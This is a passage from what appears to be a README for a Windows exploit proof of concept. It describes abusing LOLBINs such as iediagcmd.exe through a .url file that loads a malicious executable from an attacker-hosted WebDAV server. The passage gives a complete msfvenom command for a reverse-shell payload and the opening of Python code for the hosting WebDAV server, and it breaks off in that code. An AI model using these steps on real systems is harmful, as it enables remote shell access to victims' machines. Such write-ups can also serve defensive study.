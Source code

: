 ```mermaid
        style V fill:#16a085,stroke:#1abc9c,color:#2d3436
        style W fill:#3742fa,stroke:#5f27cd,color:#fff
        style X fill:#8e44ad,stroke:#9b59b6,color:#fff
    end
    
    %% Inter-column connections with improved visibility
    Col1 -.->|"🔗 Triggers"| Col2
    Col2 -.->|"⚡ Exploits"| Col3  
    Col3 -.->|"🚀 Executes"| Col4
    Col4 -.->|"💉 Injects"| Col5
    Col5 -.->|"📡 Establishes"| Col6
    
    %% Dark mode-friendly subgraph styling with even spacing
    style Col1 fill:#2d343640,stroke:#e17055,stroke-width:3px
    style Col2 fill:#2d343640,stroke:#0984e3,stroke-width:3px
    style Col3 fill:#2d343640,stroke:#c0392b,stroke-width:3px
    style Col4 fill:#2d343640,stroke:#27ae60,stroke-width:3px
    style Col5 fill:#2d343640,stroke:#6c5ce7,stroke-width:3px
    style Col6 fill:#2d343640,stroke:#2c3e50,stroke-width:3px
```
## Crafting the PoC

This vulnerability can be exploited by using **ANY** [LOLBINS](https://lolbas-project.github.io). The only thing required is that the binary specified within `URL` parameter of the `.url` file must call the malicious executable file or `.dll` in the attacker hosted WebDAV server [More details given below].

For this example we are using [`iediagcmd.exe`](https://lolbas-project.github.io/lolbas/Binaries/Iediagcmd).

1. Create an reverse shell payload with the name `route.exe`. Msfvenom can be useful! Modify `LHOST` and `LPORT` parameters to suit your need.
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10  LPORT=9999 -f exe -o route.exe
    ``` 

2. Create a webdav server using WSGI-DAV in python by using the following code:
    ```python
    # required to be run in sudo mode if port 80 is what you wanna use

    import os
    import argparse
    from wsgidav.wsgidav_app import WsgiDAVApp
    from wsgidav.fs_dav_provider import FilesystemProvider
    from cheroot import wsgi

    # Configuration
    HOST = "0.0.0.0"  # Listen on all interfaces
    PORT = 80  # WebDAV port
